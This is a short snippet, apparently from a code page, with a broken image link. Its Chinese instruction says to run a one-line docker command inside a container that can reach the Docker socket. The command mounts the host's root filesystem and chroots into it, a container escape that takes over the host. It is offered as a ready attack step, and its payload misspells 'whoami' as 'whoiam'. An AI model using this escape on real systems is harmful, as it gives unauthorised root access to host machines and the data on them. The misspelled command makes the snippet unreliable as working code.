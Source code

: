 在拥有/var/run/docker.sock访问权限以及安装了docker的docker容器内部执行以下命令
```
docker run --rm -v /:/host -it alpine chroot /host sh -c "whoiam"
```
